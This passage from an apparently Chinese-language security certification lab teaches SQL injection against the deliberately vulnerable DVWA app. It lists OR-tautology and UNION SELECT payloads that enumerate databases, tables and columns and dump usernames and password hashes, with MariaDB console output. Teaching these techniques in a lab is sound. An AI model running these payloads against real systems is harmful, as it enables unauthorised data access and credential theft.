如果你确实是在向服务器提交这些值以登录，而不是使用这个 DVWA 程序，那么返回的将是表中创建的第一个用户 ID（而不是所有用户 ID），你将以此用户身份登录。通常第一个创建的用户是管理员，因此在 SQL 注入攻击中，你会以管理员权限登录。

如有必要，攻击者甚至可以注释掉查询的末尾部分，使其被忽略且仍保持语法正确；不同 RDBMS 使用的注释符号也各有不同，包括：--、/*、#。


尝试输入以下内容。试试下面这些例子。

- b. `w' OR '1' = '1' AND first_name <> 'admin' AND first_name <> 'Gordon`
- c. `w' OR '1' = '1' AND first_name <> 'admin' AND first_name <> 'Gordon' and first_name <> 'Hack`
- d. `w' OR '1' = '1' AND first_name <> 'admin' AND first_name <> 'Gordon' and first_name <> 'Hack' AND first_name <> 'Pablo`
- e. `w' OR '1' = '1' AND first_name <> 'admin' AND first_name <> 'Gordon' and first_name <> 'Hack' AND first_name <> 'Pablo' AND first_name <> 'Bob`

在最后一个用户 Bob 之后，将不会返回任何内容。

### 交叉引用

这一过程与我们在第 7 章中逐步了解 DNS 区域的过程类似。

RDBMS 数据库的表（也称为关系）由行（也称为记录或元组）和列（也称为字段或属性）组成。行和列都不要求按特定顺序排列，但两者都可以进行排序和筛选。


### 第 9 步

你还能用 SQL 注入做些什么？

UNION 运算符将伪造查询与原始查询连接起来。这使攻击者能够访问一些“幕后”元数据，并利用这些元数据发动更强大的攻击。如前所述，# 符号会注释掉查询的末尾部分。现在来看看如何将 UNION 语句与 # 符号结合使用。

UNION 通过组合两个或多个查询并去除重复行，返回一个结果集，其中包含属于多个查询的所有行。两个 SELECT 语句中的表达式数量必须相同，并且伪造查询必须放在特定位置。

```sql
' UNION SELECT VERSION(), NULL#
```

- https://mariadb.com/kb/en/union/
- https://mariadb.com/kb/en/version/
- https://mariadb.com/kb/en/null-values/

开始吧！看看输出：

```
ID: ' UNION SELECT VERSION(), NULL#
First name: 10.4.10-MariaDB
Surname:
```

完整查询是：

```sql
SELECT first_name 'First name', last_name Surname FROM users WHERE user_id = '' UNION SELECT VERSION(), NULL#' ;
```

由于 `user_id = ''` 这部分没有匹配数据库中的任何现有条目，原始查询没有为 first_name 或 last_name 产生任何结果。这些空白结果现在与我们放在表单字段中的查询结果合并在一起。SELECT VERSION() 函数调用会返回 RDBMS 的名称和版本，这些信息可用作侦察，以寻找针对该 RDBMS 的漏洞并加以利用。

d. 列的顺序并不重要，如下所示：

```sql
' UNION SELECT NULL, VERSION()#
```

完整查询是：

```sql
SELECT first_name 'First name', last_name Surname FROM users WHERE user_id = '' UNION SELECT NULL, VERSION()#' ;
```

e. 将这两个完整语句（来自第 9c 步和第 9d 步）输入 MariaDB 控制台，如图 19-14 所示。


MariaDB [dvwa]>
MariaDB [dvwa]>
MariaDB [dvwa]>
MariaDB [dvwa]>
MariaDB [dvwa]> SELECT first_name 'First name', last_name Surname FROM users WHERE user_id = '' UNION SELECT VERSION(), NULL#';
    -> ;
+----------------+----------+
| First name     | Surname  |
+----------------+----------+
| 10.4.10-MariaDB | NULL     |
+----------------+----------+
1 row in set (0.001 sec)

MariaDB [dvwa]> SELECT first_name 'First name', last_name Surname FROM users WHERE user_id = '' UNION SELECT NULL, VERSION()#';
    -> ;
+------------+---------------+
| First name | Surname       |
+------------+---------------+
| NULL       | 10.4.10-MariaDB |
+------------+---------------+
1 row in set (0.001 sec)

MariaDB [dvwa]>

## 图 19-14 在 MariaDB 控制台中的 SQL 注入

由于完整的语句包含了#注释符号，末尾的单引号会被忽略，如前所述。然而，当完整语句直接输入到关系数据库管理系统（RDBMS）中时，分号也会被忽略，这使得MariaDB认为你正在下一行继续输入命令。在箭头提示符（表示上一行在此继续）处，输入一个分号（;）并按回车键来结束完整语句。当SQL注入像通常那样通过Web浏览器执行时，原始语句中的分号不会被#符号注释掉。

UNION输出在MariaDB控制台中可能更容易可视化，因为列是垂直排列的，而DVWA页面上则是水平格式。正如你所看到的，我们伪造查询的输出被添加到了原始查询的结果中。伪造查询输出的第一列将被视为first_name（First name），而伪造查询输出的第二列将

k. 查看所有数据库：

```
' UNION SELECT SCHEMA_NAME, NULL FROM information_schema.schemata#
```

information_schema是一个视图数据库（这些虚拟表的内容通过查询动态定义），提供RDBMS中所有表、视图、列和过程的元数据信息。被查询的表名为schemata。

l. 查看所有表：

```
' UNION SELECT TABLE_NAME, NULL FROM information_schema.tables#
```

DVWA页面上的输出会在某处截断，但如果你在MariaDB控制台中输入完整语句，会显示更多输出行。

m. 查看dvwa数据库中的所有表：

```
' UNION SELECT TABLE_NAME, NULL FROM information_schema.tables where TABLE_SCHEMA='dvwa'#
```

n. 显示users表中所有列的名称、所有列的数据类型以及每列的最大字符长度：

```
' UNION SELECT CONCAT(COLUMN_NAME, 0x0A, DATA_TYPE), CHARACTER_MAXIMUM_LENGTH FROM information_schema.columns WHERE table_name='users'#
```

https://mariadb.com/kb/en/concat/

CONCAT()函数用于组合两个或多个字符串。

0x表示后面跟的是十六进制（基数为16）数。0A是ASCII/Unicode换行符转义序列\n的十六进制表示，如https://www.asciitable.com所示。

请记住，在此处使用UNION时，每个查询必须恰好返回两列。如果你想要返回多于两列，此时就要用到CONCAT()函数。注意在输出中，列名被放在“First name:”输出中；然后，由于0x0A，输出转到下一行，输出该列的数据类型。最后，“Surname:”输出显示每个字段的最大字符长度。

如果没有0x0A，数据类型**int**会紧跟在列名user_id后面，输出会显得混乱：

```
First name: user_idint
Surname:
```

有了0x0A，输出就清晰多了：

```
First name: user_id
int
Surname:
```

事实证明，没有为user_id列定义最大字符长度，这就是为什么“Surname:”输出为空。
然而，从以下输出可以看出，first_name列的最大字符长度为15，显示在“Surname:”输出中。

```
First name: first_name
varchar
Surname: 15
```

还要注意，last_name和user的最大字符长度均为15，password的最大字符长度为32，avatar的最大字符长度为70，而最后两个字段last_login和failed_login没有最大字符长度。

如果你想要输出超过三个值，请向**CONCAT()**添加额外的0x0A实例和参数。

- o. 导出所有用户的用户名字、用户名和密码哈希：

```
' UNION SELECT first_name, CONCAT(user, 0x0A, password) FROM users#
```

10

## 步骤10 现在让我们为MariaDB root账户设置密码。在MariaDB控制台中输入以下内容：

```
SET PASSWORD FOR 'root'@'localhost' =
PASSWORD('CompTIA_Security+');
```
